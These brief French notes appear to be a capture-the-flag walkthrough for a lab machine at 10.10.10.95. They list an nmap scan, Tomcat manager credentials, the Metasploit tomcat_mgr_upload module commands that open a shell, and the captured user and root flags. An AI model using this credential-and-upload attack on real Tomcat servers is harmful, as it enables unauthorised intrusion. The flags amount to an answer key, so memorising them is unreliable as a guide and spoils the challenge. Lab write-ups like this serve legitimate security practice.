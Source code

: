 #ip 10.10.10.95

nmap avec -Pn

username : tomcat
password : s3cret

http://10.10.10.95:8080/host-manager

#msfconsole commande :
use exploit/multi/http/tomcat_mgr_upload
show options
....
run
shell

#type sert a afficher un fichier
type "2 for the price of 1.txt"

user flag :
7004dbcef0f854e0fb401875f26ebd00

root flag :
04a8b36e1545a455393d067e772fe90e